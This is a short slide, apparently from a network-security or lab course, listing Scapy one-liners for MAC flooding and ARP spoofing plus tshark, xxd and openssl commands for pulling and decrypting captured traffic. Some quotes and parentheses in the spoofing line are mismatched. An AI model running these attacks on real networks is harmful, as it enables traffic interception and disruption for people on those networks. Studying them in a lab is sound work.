

Useful Commands
Sending data with Scapy (Mac Flooding)
sendp(Ether(src=<<MAC_ADDRESS>>, dst=<<MAC_ADDRESS>>)/ARP(op=2, psrc="<<IP_ADDRESS(Or subnet)>>", hwdst="<<BROADCAST_MAC_ADDRESS>>"), loop=1)
RandMAC() → inside scapy for generating random mac address
Sending data with Scapy (ARP Spoofing)
sendp(pkt = Ether(src='<<VICTIM_MAC_ADDRESS>>', dst=’<<BROADCAST_MAC_ADDRESS>>')/ARP(op=2, hwsrc='<<VICTIM_MAC_ADDRESS>>’, pdst='<<VICTIM_IP_ADDRESS>>')
sudo tshark -Y '<<FILTER>>' -Tfields -e data > raw.txt
xxd -r -p > output.txt
openssl enc -<<CYPHER>> -d -k <<KEY>>-base64